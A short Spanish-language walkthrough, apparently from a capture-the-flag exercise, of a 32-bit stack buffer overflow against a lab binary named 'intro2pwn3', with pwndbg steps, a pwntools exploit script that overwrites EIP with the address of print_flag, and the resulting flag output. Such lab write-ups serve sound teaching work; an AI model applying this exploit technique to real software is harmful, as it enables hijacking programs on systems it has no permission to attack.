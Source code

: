 # Overflow

## Explotar un binario por overflow


- generar un pattern y lanzarlo contra el binario a desbordar
- ver en que parte se sobrescribe EIP ('jaaa')

```
cyclic 100 > pattern
gdb ./intro2pwn3 
pwndbg> r < pattern
(EIP  0x6161616a ('jaaa'))
```

- obtenemos la direccion de la funcion a la que tenemos que saltar

```
pwndbg> print& print_flag
$1 = (<text variable, no debug info> *) 0x8048536 <print_flag>
pwndbg> 
```

- creamos un exploit

```python
from pwn import *
padding = cyclic(100)
padding = cyclic(cyclic_find('jaaa'))
eip = p32(0x8048536)
payload = padding + eip
print(payload)
```

- mandamos el payload a un archivo

```
python exp.py > attack
cat attack 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa6
```

- lanzar el ataque
```
./intro2pwn3 < attack 
I run as dizmas.
Who are you?: Getting Flag:
flag{13@rning_2_pwn!}
```